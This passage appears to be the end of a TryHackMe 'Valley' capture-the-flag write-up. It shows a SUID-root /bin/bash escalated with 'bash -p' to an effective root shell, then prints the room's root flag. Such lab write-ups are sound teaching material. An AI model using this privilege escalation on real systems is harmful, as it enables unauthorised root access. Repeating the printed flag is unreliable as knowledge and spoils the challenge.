 ```tsx
valley@valley:/home$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```

Execute it and become `root` user → Flag is our now!

```tsx
valley@valley:/home$ /bin/bash -p
bash-5.0# id
uid=1000(valley) gid=1000(valley) euid=0(root) groups=1000(valley),1003(valleyAdmin)
bash-5.0# whoami
root
bash-5.0# ls
root.txt  snap
bash-5.0# cat root.txt
THM{v@lley_0f_th3_sh@d0w_0f_pr1v3sc}
```